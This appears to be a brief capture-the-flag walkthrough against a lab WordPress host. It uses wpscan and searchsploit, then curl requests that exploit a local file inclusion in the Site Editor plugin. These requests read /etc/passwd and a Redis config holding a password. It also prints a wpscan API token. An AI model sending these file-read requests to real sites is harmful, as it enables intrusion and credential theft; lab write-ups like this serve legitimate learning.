






There is a wordpress website running:


Running wpscan:
```
wpscan --url http://192.168.159.166 --api-token qa7plsUQx372hiQc5FQUPOjcfhGUCQ2Dp8DQi4ate2k
```


Searching in searchsploit:
```
searchsploit Site Editor
```


Now we can exploit it:

```
curl http://192.168.159.166/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd
```

Now we can look for redis config files as it is running on port 6379
```
curl http://192.168.159.166/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/redis/redis.conf > redis.conf
```
Then we can find the password in the file:


Now we can use this to login to redis on port [[6379]]